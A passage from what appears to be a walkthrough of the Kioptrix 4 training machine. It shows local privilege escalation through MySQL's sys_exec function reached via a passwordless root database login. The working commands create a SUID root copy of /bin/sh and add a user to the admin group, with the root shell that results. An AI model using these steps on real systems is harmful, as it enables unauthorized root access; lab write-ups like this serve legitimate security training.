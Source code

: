 After searching for the library, it is confirmed that it's present on the
system.

Next, MySQL authentication should be performed:

```bash
robert@Kioptrix4:/tmp$ mysql -u root
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 17267
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.
```

Privilege Escalation can be done in several ways.

As per the python script above, once MySQL authentication is performed, the same command can be executed manually in MySQL. As can be seen below the SUID binary was created and when executed access to root account has been granted.

```bash
mysql> select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
    -> ;
+-------------------------------------------------------------------------+
| sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh') |
+-------------------------------------------------------------------------+
| NULL                                                                    | 
+-------------------------------------------------------------------------+
1 row in set (0.01 sec)

mysql> exit
Bye
robert@Kioptrix4:~$ cd /tmp/
robert@Kioptrix4:/tmp$ ls
46249.py  LinEnum.sh  sh
robert@Kioptrix4:/tmp$ ./sh
# whoami
root
```

Second way is to add the user (robert) to administrative group.

```bash
mysql> select sys_exec('usermod -a -G admin robert');
+----------------------------------------+
| sys_exec('usermod -a -G admin robert') |
+----------------------------------------+
| NULL                                   | 
+----------------------------------------+
1 row in set (0.04 sec)
mysql> exit
Bye
```

User Robert has now been added to administrative group. Now the switch can be made to
root user from Robert’s account as shown below:
